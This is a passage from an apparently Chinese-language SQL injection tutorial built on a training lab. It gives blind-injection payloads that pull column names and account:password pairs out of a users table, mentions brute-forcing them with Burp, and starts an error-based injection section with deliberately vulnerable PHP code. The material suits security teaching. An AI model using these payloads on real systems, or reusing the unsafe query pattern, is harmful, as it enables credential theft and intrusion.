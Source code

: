 


获取到表名guestbook

然后获取字段名

```
1' and if(SUBSTRING((select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='users' limit 1,1),1,1)='l',1,0)-- 
```

同样我们用burp进行爆破

![](https://img2023.cnblogs.com/blog/2587631/202212/2587631-20221225232228021-2082015114.png)


得到字段名为`login  password`等![](https://img2023.cnblogs.com/blog/2587631/202212/2587631-20221225232302275-1126861267.png)


获得完

字段后 我们可以进一步获取字段内容【账号+密码】

```
1' and if(SUBSTRING((select CONCAT(user,0x3a,PASSWORD) from users limit 1),1,1)='a',1,0)-- 
```

![](https://img2023.cnblogs.com/blog/2587631/202212/2587631-20221225232253962-1018686498.png)







## 报错注入

​	顾名思义报错注入就是指数据库显示错误，比如sql语法错误

一般对于php。特别php 在执行 SQL 语句时一般都会采用异常处理函数，捕获错误信息。在 php 中 使用 `mysql_error()`函数

​	如果在查询注入时候会有报错信息返回，可以采用报错注入



### 报错注入分析

```php
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    # get传入id 字符串型
    $id = $_REQUEST[ 'id' ];

    // Check database
    # mysqli_error 函数返回错误信息
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

```